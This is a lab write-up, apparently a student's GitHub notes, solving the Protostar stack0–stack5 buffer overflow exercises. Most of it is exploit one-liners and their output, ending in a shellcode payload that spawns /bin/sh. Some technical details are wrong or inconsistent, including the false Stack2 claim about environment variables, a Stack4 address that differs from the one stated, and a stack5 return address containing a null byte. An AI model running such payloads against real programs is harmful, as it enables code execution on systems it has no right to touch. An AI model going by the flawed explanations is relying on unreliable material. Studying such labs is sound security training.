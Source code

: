 ### Stack0

To modify variable we need to overwrite space on buffer[64] \
`user@protostar:/opt/protostar/bin$ (python -c "print 'a'*65") | ./stack0` \
`user@protostar:/opt/protostar/bin$ you have changed the 'modified' variable`\

We write 65 here, because 64 not overload the stack

### Stack1

Now we need modify the specific value (  0x61626364  ~ "dcba") \
So. Let's check what will happen if we write into buffer as in previous task:\
`./stack1 'python -c "print ('a' * 65)"'`\
`Try again, you got 0x00000061`

Ok. now It's better, we know that we can overwrite buffer. Continue with our value: \
`./stack1 'python -c "print ('a' * 64 + 'dcba')"'`

We remove one char with 'a', because we need overloading starts with 'dcba' value\
Now we will get: \
`you have correctly got the variable to the right value`

### Stack2

Here we have fun thing with env vars -- actually command python also is env var. So. \
When we would try to create env var with value like `python 'print (A)'` it will be \
processed as a command. Let's try it out:\
`GREENIE = 'python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')'`

Check what we do:
`echo $GREENIE` \
What we get: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

Okay, now we need to call the **_./stack2_** and checj how it will work for us \
call --> ` ./stack2` \
`you have correctly modified the variable` \
Great job!

### Stack3

Now we have pointer fp on function that don't exist while in the fp only value is written \
and func win() that should be called. \
At first we should find out where our win function stored in memory. \
With this objdump tool can help us. As long as our virual machine is run on Debian OS \
we should use following command : \
`apt-get install binutils-i586-linux-gnu`\
call : `objdump -x stack3 | grep win`, where -x is flag to show all headers of obj \
result: `08048424 g     F .text  00000014              win` \
So now we know address of win ~ 0x08048424. And our task is only to overwrite fp with this value \
We know that we store data in Little Indian, so... \
as in previous tasks we need buffer with size 64 in a char and our address in hex

` (python -c "print 'a'*64 + '\x24\x84\x04\x08'";) | ./stack3`

Output:\
`calling function pointer, jumping to 0x08048424`\
`code flow successfully changed`

Yes! We got this.

### Stack4

Okay, now we have no value to overwrite. So only thing that we could do is to overwrite the\
return address of the main function. It's stored in the stack in the start of frame.

So we should bound the dedicated to main func stack size. How we can do this? we will try to increase size of the
buffer \
until we will get the segmentation fault. \
Spoiler: that will be size of 76.\
`(python -c "print 'a'*76";) | ./stack4`

Cool, now we only need the address of win() to write it onto the return function point \
we can do in the same way as in the Stack3 task. Address: 0x08048424

`(python -c "print 'a'*76 + '\xf4\x83\x04\x08'";) | ./stack4`

output: `code flow successfully changed` \
Well done! Let's move to the nex task

### Stack5

Now there is no win function. We should open shell as the result. (OMG) \
For this task we will use the shell code from the web (as recommended in task)\
`code = \x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80`\
Firstly, Let's try out to identify buffer size for this task.

Now let's use tool for debugging program while it's processing gdb \
On the next line we create breakpoint for the main function:\
`gdb stack5`\
`(gdb) b main`\
Output: `Breakpoint 1 at 0x80483cd: file stack5/stack5.c, line 10.`

So now when the program will be run we'd have an opportunity to see how it's going\
`(gdb) run`

Okay the message point us that there in no stack, then... where it is?\
Examine ESP (pointer to the stack top) return point to check this out.\
`p $esp`\
`$1 = (void *) 0xbffff750`

Now we know where our buffer is in memory. Interesting: as it is defined just after main\
is called, meaning it will be around where ESP is. At least approximately\
But for our task it's enough

Why?

Because we can't just overwrite EIP on 0xbffff750 with shellcode to get expected result.\
Hole thing is that the using of gdb changes a structure of the stack a little, so desirable\
address will be moved.

What we can do?

We can try out many addresses in loop until it works, BUT. There is no fun in this way \
So we decided to try out solution with NOPs (no-operators). A single character that \
"says" to computer go to the next operation in stack. \
Our decision is: to overwrite buffer, set instructions with nops, overwrite EIP\
and write shellcode after this\

Here is actual command in the shell:

` (python -c "import sys; sys.stdout.write(`
filling buffer until EIP
`'\x90'*76`\
Address to overwrite EIP
` + '\x00\xf8\xff\xbf'`\
NOPs
`+ '\x90'*30 +`\
shellcode
`'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')";) | ./stack5`

Great job. Let's move further!

### Stack6

### Final0




